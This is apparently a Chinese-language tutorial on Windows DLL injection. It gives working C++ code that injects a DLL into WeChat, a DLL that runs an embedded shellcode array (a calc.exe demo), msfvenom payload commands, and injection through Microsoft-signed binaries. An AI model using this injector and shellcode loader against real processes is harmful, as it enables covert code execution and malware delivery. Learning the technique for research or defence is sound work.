




DLL注入
DLL文件概述
DLL(Dynamic Link Library)文件为动态链接库文件，又称“应用程序拓展”，是软件文件类型。在Windows中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即DLL文件，放置于系统中。当我们执行某一个程序时，相应的DLL文件就会被调用。一个应用程序可使用多个DLL文件，一个DLL文件也可能被不同的应用程序使用，这样的DLL文件被称为共享DLL文件。
程序在运行过程中需要使用函数时，会先将DLL文件载入进来，然后取得函数地址，最后进行调用，这样程序就不需要在运行之初就将所有代码加载进来。
DLL注入原理
通俗的说，dll注入即是让程序A强行加载程序B给定的a.dll，并执行程序B给定的a.dll里面的代码，实质还是代码注入技术。
DLL注入用途
- 目标进程执行“预料之外”的功能。
- 需要一些手段来辅助调试被注入dll的进程
- 为目标进程安装钩子程序(API Hook)
DLL注入大致步骤
附加到目标/远程进程
在目标/远程进程内分配内存
将DLL文件路径，或者DLL文件，复制到目标/远程进程的内存空间
控制进程运行DLL文件
多种多样的DLL注入技术
如今，有很多种方式可以实现DLL注入，主要技术有以下几种
CreateRemoteThread()
NtCreateThreadEx()
QueueUserAPC
SetWindowsHookEx()
RtlCreateUserThread()
利用SetThreadContext()找到的代码区域
反射DLL
而不管是哪种技术都会大致符合DLL注入的大致步骤。
CreateRemoteThread
CreateRemoteThread 是最传统和最流行的DLL注入技术。
1.使用OpenProcess()函数打开目标进程
2.通过调用GetProAddress()函数找到LoadLibrary()函数的地址
3.通过调用VirtualAllocEx()函数在目标/远程进程地址空间中为DLL文件路径开辟内存空间
4.调用WriteProcessMemory()函数在之前所分配的内存空间中写入DLL文件路径
5.调用CreateRemoteThread()函数创建一个新的线程，新线程以DLL文件路径名称作为参数来调用LoadLibrary()函数
#include <iostream>
#include "stdlib.h"
#include <tchar.h>
#include <Windows.h>
bool Inject(DWORD dwId, WCHAR* szPath)//参数1：目标进程PID 参数2：DLL路径
{
//一、在目标进程中申请一个空间
/*
【1.1 获取目标进程句柄】
参数1：想要拥有的进程权限（本例为所有能获得的权限）
参数2：表示所得到的进程句柄是否可以被继承
参数3：被打开进程的PID
返回值:指定进程的句柄
*/
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwId);
/*
【1.2 在目标进程的内存里开辟空间】
参数1：目标进程句柄
参数2：保留页面的内存地址，一般用NULL自动分配
参数3：欲分配的内存大小，字节单位
参数4：MEM_COMMIT：为特定的页面区域分配内存中或磁盘的页面文件中的物理存储
参数5：PAGE_READWRITE 区域可被应用程序读写
返回值：执行成功就返回分配内存的首地址，不成功就是NULL
*/
LPVOID pRemoteAddress = VirtualAllocEx(
hProcess,
NULL,
1,
MEM_COMMIT,
PAGE_READWRITE
);
//二、 把dll的路径写入到目标进程的内存空间中
DWORD dwWriteSize = 0;
/*
【写一段数据到刚才给指定进程所开辟的内存空间里】
参数1：OpenProcess返回的进程句柄
参数2：准备写入的内存首地址
参数3：指向要写的数据的指针（准备写入的东西）
参数4：要写入的字节数（东西的长度+0/）
参数5： 返回值。返回实际写入的字节
*/
WriteProcessMemory(hProcess, pRemoteAddress, szPath, wcslen(szPath) * 2 + 2, &dwWriteSize);
//三、 创建一个远程线程，让目标进程调用LoadLibrary
/*
参数1：该远程线程所属进程的进程句柄
参数2：一个指向 SECURITY_ATTRIBUTES 结构的指针, 该结构指定了线程的安全属性
参数3：线程栈初始大小,以字节为单位,如果该值设为0,那么使用系统默认大小
参数4：在远程进程的地址空间中,该线程的线程函数的起始地址（也就是这个线程具体要干的活儿）
参数5：传给线程函数的参数（刚才在内存里开辟的空间里面写入的东西）
参数6：控制线程创建的标志。0（NULL）表示该线程在创建后立即运行
参数7：指向接收线程标识符的变量的指针。如果此参数为NULL，则不返回线程标识符
返回值：如果函数成功，则返回值是新线程的句柄。如果函数失败，则返回值为NULL
*/
HANDLE hThread = CreateRemoteThread(
hProcess,
NULL,
0,
(LPTHREAD_START_ROUTINE)LoadLibrary,
pRemoteAddress,
NULL,
NULL
);
WaitForSingleObject(hThread, -1); //当句柄所指的线程有信号的时候，才会返回
/*
四、 【释放申请的虚拟内存空间】
参数1：目标进程的句柄。该句柄必须拥有 PROCESS_VM_OPERATION 权限
参数2：指向要释放的虚拟内存空间首地址的指针
参数3：虚拟内存空间的字节数
参数4：MEM_DECOMMIT仅标示内存空间不可用，内存页还将存在。
MEM_RELEASE这种方式很彻底，完全回收。
*/
VirtualFreeEx(hProcess, pRemoteAddress, 1, MEM_DECOMMIT);
return 0;
}
int _tmain(int argc, _TCHAR * argv[])
{
wchar_t wStr[] = L"E:\\inject.dll";
DWORD dwId = 0;
//参数1：(NULL
//参数2：目标窗口的标题
//返回值：目标窗口的句柄
HWND hCalc = FindWindow(NULL, L"微信");
printf("目标窗口的句柄为:%d\n", hCalc);
DWORD dwPid = 0;
//参数1：目标进程的窗口句柄
//参数2：把目标进程的PID存放进去
DWORD dwRub = GetWindowThreadProcessId(hCalc, &dwPid);
printf("目标窗口的进程PID为:%d\n", dwPid);
//参数1：目标进程的PID
//参数2：想要注入DLL的路径
Inject(dwPid, wStr);
return 0;
}这里再生成一个具有弹窗功能的DLL文件，代码如下
#include <windows.h>
#include "pch.h"
DWORD WINAPI runBot(LPVOID lpParam) {
// 此处可以写具体的bot代码
return 1;
}
BOOL APIENTRY DllMain(HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
MessageBoxA(NULL, "DLL Attached!\n", "Game Hacking", MB_OK | MB_TOPMOST);
CreateThread(NULL, 0, &runBot, NULL, 0, NULL);
break;
}
return TRUE;
}生成的dll文件放入E盘下，执行dll_inject.exe


此时，已经将inject.dll注入到微信程序中了
或者将用dll加载shellcode
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();
unsigned char shellcode[193] = {
0xFC, 0xE8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89,
0xE5, 0x31, 0xC0, 0x64, 0x8B, 0x50, 0x30, 0x8B,
0x52, 0x0C, 0x8B, 0x52, 0x14, 0x8B, 0x72, 0x28,
0x0F, 0xB7, 0x4A, 0x26, 0x31, 0xFF, 0xAC, 0x3C,
0x61, 0x7C, 0x02, 0x2C, 0x20, 0xC1, 0xCF, 0x0D,
0x01, 0xC7, 0xE2, 0xF2, 0x52, 0x57, 0x8B, 0x52,
0x10, 0x8B, 0x4A, 0x3C, 0x8B, 0x4C, 0x11, 0x78,
0xE3, 0x48, 0x01, 0xD1, 0x51, 0x8B, 0x59, 0x20,
0x01, 0xD3, 0x8B, 0x49, 0x18, 0xE3, 0x3A, 0x49,
0x8B, 0x34, 0x8B, 0x01, 0xD6, 0x31, 0xFF, 0xAC,
0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0x38, 0xE0, 0x75,
0xF6, 0x03, 0x7D, 0xF8, 0x3B, 0x7D, 0x24, 0x75,
0xE4, 0x58, 0x8B, 0x58, 0x24, 0x01, 0xD3, 0x66,
0x8B, 0x0C, 0x4B, 0x8B, 0x58, 0x1C, 0x01, 0xD3,
0x8B, 0x04, 0x8B, 0x01, 0xD0, 0x89, 0x44, 0x24,
0x24, 0x5B, 0x5B, 0x61, 0x59, 0x5A, 0x51, 0xFF,
0xE0, 0x5F, 0x5F, 0x5A, 0x8B, 0x12, 0xEB, 0x8D,
0x5D, 0x6A, 0x01, 0x8D, 0x85, 0xB2, 0x00, 0x00,
0x00, 0x50, 0x68, 0x31, 0x8B, 0x6F, 0x87, 0xFF,
0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x68, 0xA6,
0x95, 0xBD, 0x9D, 0xFF, 0xD5, 0x3C, 0x06, 0x7C,
0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
0x13, 0x72, 0x6F, 0x6A, 0x00, 0x53, 0xFF, 0xD5,
0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65,
0x00
};
DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(lpBase, shellcode, sizeof(shellcode));
JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
jmp_shellcode();
return 0;
}
BOOL APIENTRY DllMain(HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}具有微软签名可利用的注入的程序
国外安全研究员发现了2个具有微软签名的二进制文件可以进行 DLL 注入。链接：https://github.com/mrd0x/dll_inject_vs_binaries
msfvenom -p windows/exec cmd=calc.exe -f dll -o calc32.dll # 生成32位dll
msfvenom -p windows/x64/exec cmd=calc.exe -f dll -o calc64.dll # 生成64位dll
msfvenom -a x64 --platform windows -p windows/x64/exec CMD="calc.exe" -f dll -o calc.dll首先编写一个程序，也可以利用记事本的进程
taskkill /f /im notepad.exe //杀死记事本进程
notepad && tasklist |find "notepad.exe" //找到记事本进程的pid。
inject_dll_amd64.exe 11904 D:dll_inject_vs_binariescalc64.dll#include <iostream>
int main()
{
std::cout << "Hello World!\n";
getchar();
}获取到这个程序的pid为6012
利用注入程序inject_dll_amd64.exe 6012 calc.dll

这里的dll可以使用msfvenom生成，也能使用go编译dll
// calc.go
package main
//#include "main.h"
//regenerate cgo definitions
import (
"os/exec"
)
func init(){
_ = exec.Command("calc.exe").Run()
}
var isRunning bool = false
func RunSliver (){
if !isRunning{
isRunning = true
}
}
func Dllinstall(){ main() }
func main(){
}go build -ldflags "-s -w" -buildmode=c-shared -o calc2.dll calc.go
cs生成的dll也成功通过该种方式注入到程序之中

总的来说，就是：先在目标进程的内存空间里开辟一块新地方，往新地方里面写入DLL的路径，再创建远程线程找到LoadLibrary() 函数，并在刚才开辟的新地方中读取DLL路径，进而加载我们自己写的DLL